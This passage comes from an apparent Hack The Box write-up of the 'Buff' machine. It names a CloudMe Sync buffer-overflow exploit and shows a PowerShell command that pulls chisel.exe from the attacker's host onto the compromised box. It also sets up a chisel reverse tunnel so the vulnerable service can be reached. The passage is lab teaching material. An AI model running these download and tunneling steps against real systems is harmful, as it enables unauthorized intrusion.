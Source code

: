 ```shell
CloudMe Sync < 1.11.0 - Buffer Overflow (SEH) (DEP Bypass)                                                                                                  | windows_x86-64/remote/44784.py
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results
```

First two exploit resembles the same version as we saw in Buff's Downloads which was `CloudMe_1112.exe`, we'll use the first one and copy it our machine using `searchsploit -m windows/remote/48389.py`

### Port-Forwarding

Traditionally to exploit buffer overflows we'll transfer & run the exploit within the box. Here since it's a windows machine and Python isn't installed by default so we'll create a tunnel from our box to Buff using [**chisel**](https://github.com/jpillora/chisel/releases/tag/v1.7.3) and exploit this service.

#### Step1 : Transfer chisel.exe to Buff

```shell
PS C:\Users\shaun\Documents> iwr -uri http://10.10.14.20:8000/chisel.exe -o chisel.exe
iwr -uri http://10.10.14.20:8000/chisel.exe -o chisel.exe
PS C:\Users\shaun\Documents> ls
ls


    Directory: C:\Users\shaun\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       13/11/2020     16:51        8814592 chisel.exe
-a----       16/06/2020     22:26             30 Tasks.bat
-a----       13/11/2020     16:17         472064 winpeas.exe
```

First we'll host a python server on our machine and since we are already in a powershell we'll make use `iwr (Invoke-WebRequest)` and `uri` to transfer the exe.

#### Step2 : Executing chisel in server mode on our machine (Kali)

```shell
cfx:  ~/Documents/htb/buff
→ ./chisel server -p 9001 -reverse
2020/11/13 23:03:21 server: Reverse tunnelling enabled
2020/11/13 23:03:21 server: Fingerprint 1a:53:38:1d:95:4d:8a:41:72:63:57:46:d5:67:dd:0e
2020/11/13 23:03:21 server: Listening on http://0.0.0.0:9001
2020/11/13 23:03:23 server: session#1: tun: proxy#R:8888=>8888: Listening
```

#### Step3 : Running chisel on Buff in client mode
